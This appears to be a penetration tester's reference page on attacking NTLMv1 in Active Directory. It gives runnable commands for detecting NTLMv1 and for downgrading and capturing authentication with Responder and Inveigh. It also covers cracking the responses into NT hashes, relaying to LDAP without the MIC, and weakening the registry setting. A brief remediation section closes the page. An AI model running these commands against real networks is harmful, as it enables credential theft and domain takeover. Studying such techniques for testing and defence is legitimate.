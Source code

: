 ```yaml
---
title: NTLMv1
---
```


NTLMv1 is the first version of the NTLM authentication protocol, the predecessor of NTLMv2 and insecure in multiple ways.

# Discovery

Search for [[notes/ad/gpo|GPOs]] that enable NTLMv1 by setting `HKLM\System\CurrentControlSet\control\LSA\LMCompatibilityLevel` to `2` or lower.

If you already have admin rights on a computer you can check this registry value trough *Remote Registry* ([source](https://github.com/Porchetta-Industries/CrackMapExec/pull/640)).

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb 192.168.178.0/24 -u jdoe -p 'passw0rd' -M ntlmv1
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass dc01.corp.local query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\Lsa' -v LMCompatibilityLevel
    ~~~

# Capture & Crack

[[notes/ad/ntlm-relay-source|Coerce NTLM authentication]] from your target and capture the responses.

Configure a static challenge.

~~~ bash
sudo sed -i 's/^Challenge = .*/Challenge = 1122334455667788/' /usr/share/responder/Responder.conf
~~~

Then try different downgrade techniques ([source](https://twitter.com/hackanddo/status/1420135330171207685), [source](https://twitter.com/ShitSecure/status/1599722053552066561)).

~~~ bash
sudo responder -A --disable-ess -I eth0
sudo responder -A --lm -I eth0
sudo responder -A --lm --disable-ess -I eth0
sudo impacket-ntlmrelayx -smb2support -ntlmchallenge 1122334455667788 -of ./hashes.txt
sudo impacket-ntlmrelayx -ntlmchallenge 1122334455667788 -of ./hashes.txt
~~~

Alternatively on Windows with [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (untested).

~~~ powershell
reg.exe add HKLM\System\CurrentControlSet\Control\Lsa /v LMCompatibilityLevel /t REG_DWORD /d 0 /f
Invoke-Inveigh -ConsoleOutput Y -Challenge 1122334455667788
~~~

Then continue with [[notes/cryptography/hash-cracking]] to turn the NTLMv1 response into an NT hash.
NTLMv1 is based on DES and cryptographically broken, because the DES key space can be fully enumerated with FPGAs.
[crack.sh](https://crack.sh) provides a service for cracking DES.

a) NTLMv1 without SSP

[crack.sh](https://crack.sh) cracks this responses for free trough a huge rainbow table.

Responder output: `[SMB] NTLMv1 Hash : hashcat::DUSTIN:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788`  
Input for [crack.sh](https://crack.sh): `NTHASH:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595`  

b) NTLMv1 with SSP/ESS

Such responses can be easily identified, because they contain a large amount of consecutive zeros.
Pass the output from Responder to [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) to get the input for [crack.sh](https://crack.sh).
Cracking requires full brute force and is not free.

~~~ bash
python3 ./ntlmv1.py --ntlmv1 'hashcat::DUSTIN:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788'
~~~

If [crack.sh](https://crack.sh) is currently down you can crack both NTLMv1 response variants with a beefy GPU and [[notes/tools/hashcat]].
See [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) for more details.
Responses captured from users can be looked up in a huge database with [shuck.sh](https://shuck.sh).

In any case the resulting NT hash can be used to forge a RC4 [[notes/ad/silver-ticket]], [[notes/ad/kerberos-delegate2thyself]] or perform a [[notes/ad/dcsync]] in case of a domain controller.

References:

- [twitter.com/\_EthicalChaos\_/status/1710185074061152501](https://twitter.com/_EthicalChaos_/status/1710185074061152501), cracking NTLMv1 hashes takes two days with four RTX 3080s
- [NTLMv1 Multitool](https://github.com/evilmog/ntlmv1-multi)
- [Cracking NETLM/NETNTLMv1 authentication](https://crack.sh/netntlm/)
- [NetNTLMtoSilverTicket](https://github.com/notmedic/netntlmtosilverticket)

# Relay

Computers that still support NTLMv1 are a wonderful [[notes/ad/ntlm-relay-sink]], because NTLMv1 allows cross-protocol relaying from SMB to LDAP by dropping the MIC.
Additionally relay protections like SMB Signing and LDAP Signing don't apply to NTLMv1 and relaying from SMB to TLS endpoints like HTTPS and LDAPS is possible as long as EPA is not set to `required` because NTLMv1 does not support Channel Binding.

[[notes/ad/ntlm-relay-from-smb|Coerce NTLM authentication over SMB]] from a valuable computer and [[notes/ad/ntlm-relay-to-ldap|relay to LDAP]] on a domain controller.

~~~ bash
impacket-ntlmrelayx -debug --no-http-server --no-raw-server --no-wcf-server -smb2support --no-dump --no-da --no-acl --no-validate-privs --remove-mic -i -t ldap://dc01.corp.local
~~~

References:

- [NetNTLMv1 Downgrade to Compromise](http://web.archive.org/web/20230901141443/https://www.r-tec.net/r-tec-blog-netntlmv1-downgrade-to-compromise.html)
- [Practical Attacks against NTLMv1](https://web.archive.org/web/20220916075004/https://www.trustedsec.com/blog/practical-attacks-against-ntlmv1/)
- [Relaying 101: NTLM Downgrade Attack](http://web.archive.org/web/20220822082322/https://luemmelsec.github.io/Relaying-101/#ntlm-downgrade-attack)
- [NTLMv1 vs NTLMv2: Digging into an NTLM downgrade attack](http://web.archive.org/web/20221122220544/https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)

# Remediation

1. Analyze event 4624 on DCs to find applications that fall back to NTLMv1.
2. Disable NTLMv1 by setting the registry value `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\LMCompatibilityLevel` to `3` or higher.

References:

- [Audit use of NTLMv1 on a domain controller](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/audit-domain-controller-ntlmv1)
